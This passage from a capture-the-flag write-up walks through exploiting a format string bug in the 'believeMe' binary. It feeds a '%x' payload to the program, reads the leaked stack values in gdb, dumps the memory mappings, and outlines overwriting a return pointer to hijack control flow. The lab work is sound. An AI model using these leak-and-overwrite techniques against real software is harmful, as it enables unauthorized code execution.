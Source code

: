 ![](images\image003.png)

So `VAR_3C` (the first local variable of `main`) got the value of 0xffffddc4.

The variables before that got their value anytime before `printf` printed the output we saw.

We can also see that most leaked values don't change between calls, so if one of the values resembles an address on the stack, and the value doesn't change between calls (thank you for disabling ASLR), we can use this value to calculate the address of a return pointer and override it in order to hijack the flow.

Let's study the leaked values a bit more by running the program locally and using a debugger.

```console
root@kali:/media/sf_CTFs/noxale/believe# echo "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" > input.txt
root@kali:/media/sf_CTFs/noxale/believe# gdb ./believeMe
GNU gdb (Debian 7.12-6+b1) 7.12.0.20161007-git
[...]
Reading symbols from ./believeMe...(no debugging symbols found)...done.
(gdb) b *0x080487E9
Breakpoint 1 at 0x80487e9
(gdb) r < input.txt
Starting program: /media/sf_CTFs/noxale/believe/believeMe < input.txt
Someone told me that pwning makes noxāle...
But......... how ???? 
AAAA804890c.f7fb95c0.d05eac00.9.ffffd560.f7e13b09.ffffd3e4.f7fb9000.41414141.252e7825.78252e78.
Breakpoint 1, 0x080487e9 in main ()
(gdb) info proc mappings
process 1744
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /media/sf_CTFs/noxale/believe/believeMe
	 0x8049000  0x804a000     0x1000        0x0 /media/sf_CTFs/noxale/believe/believeMe
	 0x804a000  0x804b000     0x1000     0x1000 /media/sf_CTFs/noxale/believe/believeMe
	 0x804b000  0x806d000    0x22000        0x0 [heap]
	0xf7de3000 0xf7dfc000    0x19000        0x0 /lib32/libc-2.27.so
	0xf7dfc000 0xf7f48000   0x14c000    0x19000 /lib32/libc-2.27.so
	0xf7f48000 0xf7fb6000    0x6e000   0x165000 /lib32/libc-2.27.so
	0xf7fb6000 0xf7fb7000     0x1000   0x1d3000 /lib32/libc-2.27.so
	0xf7fb7000 0xf7fb9000     0x2000   0x1d3000 /lib32/libc-2.27.so
	0xf7fb9000 0xf7fba000     0x1000   0x1d5000 /lib32/libc-2.27.so
	0xf7fba000 0xf7fbd000     0x3000        0x0 
	0xf7fce000 0xf7fd0000     0x2000        0x0 
	0xf7fd0000 0xf7fd3000     0x3000        0x0 [vvar]
	0xf7fd3000 0xf7fd5000     0x2000        0x0 [vdso]
	0xf7fd5000 0xf7fd6000     0x1000        0x0 /lib32/ld-2.27.so
	0xf7fd6000 0xf7ff1000    0x1b000     0x1000 /lib32/ld-2.27.so
	0xf7ff1000 0xf7ffb000     0xa000    0x1c000 /lib32/ld-2.27.so
```